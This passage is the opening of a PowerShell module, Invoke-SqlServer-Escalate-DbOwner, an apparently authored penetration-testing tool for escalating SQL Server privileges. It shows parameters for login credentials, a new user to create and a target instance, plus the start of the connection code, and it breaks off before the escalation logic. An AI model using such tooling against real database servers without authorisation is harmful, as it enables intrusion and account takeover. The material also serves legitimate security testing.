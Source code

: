         .LINK
           http://www.netspi.com

        .NOTES
           Author: Scott Sutherland - 2014, NetSPI
           Version: Invoke-SqlServer-Escalate-DbOwner.psm1 v1.0
           Comments: Should work on SQL Server 2005 and Above.
        #>

      [CmdletBinding()]
      Param(
        
        [Parameter(Mandatory=$false,
        HelpMessage='Set SQL Login username.')]
        [string]$SqlUser,
        
        [Parameter(Mandatory=$false,
        HelpMessage='Set SQL Login password.')]
        [string]$SqlPass,

        [Parameter(Mandatory=$false,
        HelpMessage='Set SQL Login username.')]
        [string]$newuser,
        
        [Parameter(Mandatory=$false,
        HelpMessage='Set SQL Login password.')]
        [string]$newPass,

        [Parameter(Mandatory=$true,
        HelpMessage='Set target SQL Server instance.')]
        [string]$SqlServerInstance
        
      )

        # -----------------------------------------------
        # Connect to the sql server
        # -----------------------------------------------
        
        # Create fun connection object
        $conn = New-Object System.Data.SqlClient.SqlConnection
        
        # Set authentication type and create connection string    
        if($SqlUser -and $SqlPass){   
              
            # SQL login
            $conn.ConnectionString = "Server=$SqlServerInstance;Database=master;User ID=$SqlUser;Password=$SqlPass;"
            [string]$ConnectUser = $SqlUser
        }else{
              